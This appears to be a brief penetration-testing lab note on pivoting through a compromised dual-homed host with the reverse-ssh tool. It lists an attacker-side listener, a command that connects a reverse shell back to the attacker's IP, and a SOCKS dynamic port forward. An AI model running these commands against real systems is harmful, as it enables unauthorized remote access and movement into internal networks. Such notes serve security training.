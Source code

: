Using `reverse-ssh`,
1. On the attacker side, run
	```shell
	./reverse-sshx64 -l -v -p 22
	```
2. With a shell on 192.168.x.121 which is dual-homed, run
	```shell
	reverse-sshx64.exe -p 22 -b 8121 whatever@192.168.45.163
	```
3. Finally, on attacker side, set up dynamic port-forwarding with
	```shell
	ssh -v -N -D 9999 whatever@127.0.0.1 -p 8121
	```
